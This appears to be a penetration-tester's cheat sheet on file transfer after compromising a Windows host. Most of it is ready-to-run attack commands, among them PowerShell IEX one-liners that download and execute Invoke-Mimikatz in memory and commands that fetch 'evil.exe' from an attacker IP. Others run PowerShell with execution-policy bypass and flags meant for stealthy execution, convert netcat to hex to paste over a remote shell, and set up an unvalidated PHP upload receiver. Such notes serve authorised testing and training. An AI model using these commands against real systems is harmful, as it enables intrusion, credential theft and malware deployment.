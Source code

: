 # File Transfer

There are many situations when transferring files either to or from a target system is necessary. We may successfully exploit a web application vulnerability, achieve RCE on a target web server, or even upload a web shell. There are many ways that we could upgrade our access to an interactive shell, and some require successfully transferring scripts, binaries, or tools to the target. During an internal assessment, we may find ourselves on a Windows host with a need to transfer over tools to perform enumeration of the Active Directory environment, to attempt privilege escalation, or have the need to download command output for offline processing.



## Windows File Transfer Methods

### PowerShell Downloads

```text
(New-Object System.Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1',"C:\Users\Public\Downloads\PowerView.ps1")
```

From PowerShell 3.0, Invoke-WebRequest is also available, but it is noticeably slower at downloading files. The aliases `iwr`, `curl`, and `wget` can be used instead of Invoke-WebRequest.

```text
Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```

Instead of downloading to disk, the payload can instead be executed in memory, using Invoke-Expression, or the alias `iex`.

```text
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
```

IEX also accepts pipeline input.

```text
 Invoke-WebRequest https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1 | iex
```

There may be cases when the Internet Explorer first-launch configuration has not been completed, which prevents the download.  
This can be bypassed using the parameter `-UseBasicParsing`.

```text
Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | iex
```

Alternatively, with administrative access to the machine, we can disable Internet Explorer’s First Run customization.

```text
reg add "HKLM\SOFTWARE\Microsoft\Internet Explorer\Main" /f /v DisableFirstRunCustomize /t REG_DWORD /d 2
```

```text
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://10.11.0.4/evil.exe" >>wget.ps1
echo $file = "new-exploit.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```

Now we can use PowerShell to run the script and download our file. However, to ensure both correct and stealthy execution, we specify a number of options in the execution of the script   
  
First, we must allow execution of PowerShell scripts \(which is restricted by default\) with the - ExecutionPolicy keyword and Bypass value. Next, we will use `-NoLogo` and `-NonInteractive` to hide the PowerShell logo banner and suppress the interactive PowerShell prompt, respectively. The `-NoProfile` keyword will prevent PowerShell from loading the default profile \(which is not needed\), and finally we specify the script file with `-File` 

```text
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

```text
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://10.11.0.4/evil.exe', 'new-exploit.exe')
```

```text
powershell.exe "IEX (New-Object System.Net.WebClient).DownloadString('http://10.11.0.4/helloworld.ps1')"
```

### Windows Downloads with exe2hex and PowerShell

Starting on our Kali machine, we will compress the binary we want to transfer, convert it to a hex string, and embed it into a Windows script.   
On the Windows machine, we will paste this script into our shell and run it. It will redirect the hex data into powershell.exe , which will assemble it back into a binary.   
This will be done through a series of non-interactive commands. As an example, let’s use powershell.exe to transfer Netcat from our Kali Linux machine to our Windows client over a remote shell.

```text
cp /usr/share/windows-resources/binaries/nc.exe .
upx -9 nc.exe
exe2hex -x nc.exe -p nc.cmd
```

When we copy and paste this script into a shell on our Windows machine and run it, we can see that it does, in fact, create a perfectly-working copy of our original nc.exe.

```text
COPY content of nc.cmd to notepad and run with powershell
```

### Windows Uploads Using Windows Scripting Languages

create the following PHP script and save it as `upload.php` in our Kali webroot directory,`/var/www/html`:

```text
<?php
$uploaddir = '/var/www/uploads/';
$uploadfile = $uploaddir . $_FILES['file']['name'];
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
```

